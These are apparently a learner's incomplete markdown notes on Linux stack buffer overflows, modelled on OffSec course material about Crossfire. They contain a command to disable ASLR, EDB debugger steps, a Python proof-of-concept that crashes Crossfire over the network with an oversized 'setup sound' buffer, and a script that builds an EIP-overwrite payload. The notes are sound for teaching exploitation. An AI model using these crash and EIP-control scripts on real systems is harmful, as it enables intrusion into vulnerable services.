### DISABLE ASLR on Kali for testing

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

### Setting up the EDB debugger
First thing, it runs with the following command:
```bash
root@debian:~# edb --run binary
```

# Note: Remember to run EDB from the same folder of your binary

The layout of EDB is similar to other popular debugging tools, as shown below:

![Figure 1: EDB interface](https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PEN-200/imgs/linux_buffer_overflows/IVUfZNLJ-1E-linux_buffer_overflows_01.png)

To see available processes including the PID and owner, we will select _Attach_ from the _File_ menu. We can then use the filter option to search for a specific process, which in our case is _crossfire_, select it, and click _OK_ to attach to it:

![Figure 2: EDB - Attachable processes window](https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PEN-200/imgs/linux_buffer_overflows/lUl7AsMPwdk-linux_buffer_overflows_02.png)

When we initially attach to the process, it will be paused. To run it, we simply click the _Run_ button. Depending on how the application works within the debugger it might hit an additional breakpoint before letting the application run. In such cases we simply have to press the _Run_ button one more time.

![Figure 3: Attaching the application in the debugger](https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PEN-200/imgs/linux_buffer_overflows/V3h3CUzZfSg-linux_buffer_overflows_03.png)

### Calculate Buffer

Once we have attached the debugger to the application, we will use the following proof-of-concept code that we created based on information from the public exploit:

```python 
#!/usr/bin/python
import socket

host = "10.11.0.128"

crash = "\x41" * 4379

buffer = "\x11(setup sound " + crash + "\x90\x00#"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print "[*]Sending evil buffer..."

s.connect((host, 13327))
print s.recv(1024)

s.send(buffer)
s.close()

print "[*]Payload Sent !"
```

Notice that our _buffer_ variable requires specific hex values at the beginning and at the end of it, as well as the "setup sound" string, in order for the application to crash.

Our initial proof-of-concept builds a malicious buffer including the "setup sound" command, connects to the remote service on port 13327, and sends the buffer.

To crash Crossfire, we can run our first proof-of-concept using python:

```bash
kali@kali:~$ python poc_01.py 
[*]Sending evil buffer...
#
[*]Payload Sent !
```

After running the script, the debugger displays the following error message, clearly indicating the presence of a memory corruption in the _setup sound_ command, likely a buffer overflow condition:

![Figure 4: Crash indicating a buffer overflow](https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PEN-200/imgs/linux_buffer_overflows/8HoyucM3yhA-linux_buffer_overflows_04-2.png)

Clicking the _OK_ button, we find that the EIP register has been overwritten with our buffer.

### Find memory address of a function
If by any chance, you know that there is a function which helps you to execute your buffer by redirecting it to the EIP the following command can retrieve the memory address:

```bash
objdump -d execution-flow-linux | grep flag
0804862b <flag>:
 8048667:       75 1c                   jne    8048685 <flag+0x5a>
 8048683:       eb 37                   jmp    80486bc <flag+0x91>
```

### Control EIP

In order to create linux payloads it's better if we use python2 as such payloads can be encoded as bytes easily by using the following syntax:

```bash
#!/usr/bin/env python2
Initial ="A"*3892
payloadBytes = Initial + b"\x2b\x86\x04\x08"
#	Open in "wb" mode to write a new file, or "ab" mode to append
with open("exploit.txt", "wb") as binary_file:
# Write bytes to file 
	binary_file.write(payloadBytes)
```

As seen below, the EIP memory address is being converted as bytes with the b"" syntax.

### Locating Space for Our Shellcode

TODO

### Checking for Bad Characters

We sent the whole range of characters from 00 to FF within our buffer and then monitored whether any of those bytes got mangled, swapped, dropped, or changed in memory once they were processed by the application.